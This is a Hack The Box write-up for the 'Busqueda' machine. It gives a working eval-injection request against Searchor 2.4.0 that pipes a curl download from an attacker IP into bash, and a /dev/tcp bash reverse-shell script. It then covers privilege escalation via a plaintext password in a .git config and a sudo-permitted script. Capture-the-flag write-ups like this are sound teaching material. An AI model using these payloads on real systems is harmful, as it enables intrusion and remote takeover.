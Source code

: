 # HTB - Busqueda

## Summary

This is a pretty quick one. It just involves exploiting a vulnerability in "Searchor" to get a shell, and then using a sudo misconfiguration to privesc.  

<br />

## Initial Shell

nmap shows `22` and `80` open. Going to the webpage we can look at source and determine that this is using "Searchor 2.4.0"  
Searching the internet for Searchor 2.4.0 vulnerabilities, we find a page that says there is an arbitrary code execution vulnerability due to unsafe implementation of the eval method  
Searching for python eval injection, we can learn more about this sort of thing. Basically, we can send the following payload with Burp, to get a shell back to our box:  
```burp
engine=AOL&query=http%3a//127.0.0.1/debug'%2beval(compile('for+x+in+range(1)%3a\n+import+os\n+os.system("curl+http%3a//10.10.14.6/shell|bash")','a','single'))%2b'&auto_redirect=
```
Before sending that, we need to start a nc listner on 8686, an http server on port 80 and add the following to a file "shell" to be served:  
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.6/8688 0>&1
```

Then sending the request with burp we get a shell back  

<br />

## Privilege Escalation

In `/var/www/app/.git/config` we can see our user's password written in plaintext.  
We can ssh to the box with that password to get a cleaner shell.  

`sudo -l` (requires the password we just found) shows us:
```bash  
User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```
That script must be run with a parameter matching a `.sh` file; there are three of these files in `/opt/scripts/`, we can mimic one `full-checkup.sh` and have it connect back to us with a bash reverse shell. This gets us root.  



